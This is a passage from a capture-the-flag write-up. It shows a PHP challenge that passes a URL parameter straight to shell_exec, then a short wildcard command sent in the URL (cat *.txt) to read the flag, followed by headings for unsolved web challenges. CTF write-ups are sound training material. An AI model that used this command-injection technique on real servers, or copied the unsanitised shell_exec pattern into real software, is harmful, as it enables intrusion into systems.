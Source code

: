 ```php
            echo shell_exec($c);
    }else{
            echo "too long!";
    }
    highlight_file(__FILE__);
?>
```
<br/>
As you can see we can cut down the input length of commands with wildcards.  Let's `cat` the flag and move on.
```
http://jh2i.com:50001/?c=cat%20*.txt
```
```php
LLS{you_really_can_see_in_the_dark}
<?php

    $c = $_GET[c];

    if(strlen($c) < 10){
            echo shell_exec($c);
    }else{
            echo "too long!";
    }
    highlight_file(__FILE__);
?>
```
<br/>
:checkered_flag: `LLS{you_really_can_see_in_the_dark}`
<br/>
<br/>
### Sequelitis (100) :x:

### Dairy Products (100) :x:

### Irregular Expressions (100) :x:

### GET Encoded (125) :x:

### Eyeless (150) :x:

### Meme Factory (200) :x:

<br/>
<br/>

---

## Cryptography
